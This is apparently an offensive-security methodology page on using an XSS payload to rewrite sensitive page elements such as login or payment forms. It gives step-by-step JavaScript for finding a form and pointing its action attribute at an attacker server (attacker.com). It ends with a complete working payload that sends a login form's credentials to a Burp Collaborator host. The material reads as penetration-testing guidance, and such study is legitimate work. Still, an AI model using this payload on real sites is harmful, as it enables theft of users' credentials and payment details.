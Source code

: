 If your XSS payload lands on the same page as sensitive client-side HTML responsible for collecting user data (e.g., a payment `<form>`), you can modify the HTML to do something malicious (e.g., send the payment details to an attacker-controlled server). 

The intention behind this Impact Technique is to modify client-side HTML that does something interesting. This will usually involve modifying client-side HTML or JavaScript responsible for collecting sensitive data from the user and submitting it to the backend. For this reason, `<form>`, `<iframe>`, and `<input>` HTML elements are generally what you will want to look for. 

If you are aiming to simply retrieve sensitive data from the backend, please see [[Session Hijacking]].

This Impact Step has three steps:
1. Identify sensitive HTML
2. Modify the HTML
3. Create server infrastructure (optional)

# 1. Identify Sensitive HTML
Scroll up and down the page to see if there are any instances of sensitive HTML. Some examples may include:
- An HTML `<form>` that collects sensitive data (payment card information, personally identifiable data, credentials, etc.)
- An `<iframe>` element that hosts a third-party site, which collects sensitive data.
- An `<img>` element that displays something sensitive for the user to validate/process, like a QR code.

Right-click the interesting HTML and select "Inspect" to view the element in the browser's Document-Object Model (DOM). Take note of any attributes set in the HTML element. 

Once you have located an interesting HTML element, proceed.

# 2. Modify the HTML
## 2a. Dynamically Retrieve the HTML Element
Once you've identified an interesting HTML element, you now must retrieve it with your XSS payload. The correct solution depends on what attributes are set in the element.

TIP: Sometimes, your XSS payload will load before the element you are targeting. In this case, you must wait a few seconds before trying to retrieve and modify the element. You can use the following JavaScript to wait for an arbitrary number of seconds:
```js
function waitXSeconds(x) {
    return new Promise(resolve => {
        setTimeout(() => {
            resolve('resolved');
            // Put "real" XSS payload here
        }, x * 1000);
    });
}

async function asyncCall(x) {
    console.log('calling');
    const result = await waitXSeconds(x);
    console.log(result);
}

asyncCall(5); // wait 5 seconds
```
- Note the comment above (`// Put "real"...`). This is where you would put the actual XSS payload logic. 


**getElementById**: 
If the element has an `id` attribute set (e.g.):
```html
<form id="login-form" action=/login method="post">
...
</form>
```

...you can use `getElementById` in your XSS payload:
```js
var targetHTML = document.getElementById("login-form");
```
- Replace `"login-form"` with the ID of the element you are targeting.
- Although there should only ever be one element with a particular ID, the browser will allow multiple elements with the same ID to render (you may see an error in the Console Log, however). If there are multiple elements with the same ID, and the above payload retrieves the wrong element, proceed to **getElementsByTagName** below.

It can be helpful to paste your payload into the Developer's Console while testing:
![[Pasted image 20240206110228.png|750]]

**getElementsByTagName**:
If the element does not have an `id` attribute (e.g.):
```html
<form action=/login method="post">
...
</form>
```

...you can use `getElementsByTagName` in your XSS payload:
```js
var targetHTML = document.getElementsByTagName("form")[0];
```
- Replace `"form"` with the type of element you are targeting.

Note the index at the end (`[0]`). If the page has multiple `<form>` elements (or whatever element you are targeting), you may need to adjust the index accordingly. 

As seen above, it can be helpful to test your payload in the Developer Console.

## 2b. Modify the Element
Now that you've retrieved the target element with your XSS payload, you need to modify the HTML to suit your purposes. 

For a `<form>`, you typically would change the `action` attribute to point elsewhere:
```js
targetHTML.action = "<ATTACKER-SERVER-URL>";
```
- Replace `<ATTACKER-SERVER-URL>` with the full URL to an endpoint on a server you control. 
	- E.g., `https://attacker.com/login-exfiltration`
- If you are modifying a different attribute, adjust as needed.

Some common attributes to modify:
- `<form>` element's `action` attribute.
- `<iframe>` element's `src` attribute.
- `<iframe>` element's `action` attribute.
- `<img>` element's `src` attribute.

## 2c. Putting Everything Together
Putting the above steps together might result in a payload that looks like the following:
```js
function waitXSeconds(x) {
	return new Promise(resolve => {
		setTimeout(() => {
			resolve('resolved');
			var targetHTML = document.getElementById("login-form");
			targetHTML.action = "https://i3m573nxa6i8zmqxrvcy87a9x03rrhf6.oastify.com/credentials"
		}, x * 1000);
	});
}

async function asyncCall(x) {
	console.log('calling');
	const result = await waitXSeconds(x);
	console.log(result);
}

asyncCall(5); // wait 5 seconds
```

Upon submitting the form, the user's credentials would then be sent to Burp Collaborator instead of the intended destination:
![[Pasted image 20240206131452.png|1000]]

# 3. Create Server Infrastructure (optional)
If your modifications to the client-side HTML involve exfiltrating data, you could use either Burp Collaborator or a Flask Application running on a cloud compute instance to receive the exfiltrated data. Please see [[Session Token Exfiltration#2. Using the Cookie]] for examples.